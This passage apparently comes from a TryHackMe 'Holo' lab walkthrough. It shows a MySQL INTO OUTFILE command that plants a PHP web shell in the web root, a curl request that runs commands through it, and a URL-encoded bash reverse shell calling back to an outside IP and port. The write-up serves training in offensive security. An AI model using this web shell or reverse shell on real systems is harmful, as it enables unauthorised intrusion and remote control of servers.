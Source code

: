 
use single command to inject our PHP code into a table and save the table into a file on the remote system. We are writing any code that we want onto the remote system from this command, which we can then execute, giving use code execution. Find the command used below.

`select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`
![Alt text](/assets/img/tryhackme/Networks/Holo/h14.png) 

```nmap
fig-data@a7cac6cdbc37:/var/www/html$ curl 192.168.100.1:8080/shell.php?cmd=whoami
www-data
www-data@a7cac6cdbc37:/var/www/html$ 
```

and we have command execution here, so is to have a reverse connection back to us and we had a call back

`curl 192.168.100.1:8080/shell.php?cmd=bash+-c+"bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.50.103.242%2F4488%200%3E%261"`

![Alt text](/assets/img/tryhackme/Networks/Holo/h15.png) 

## Privilege Escalation
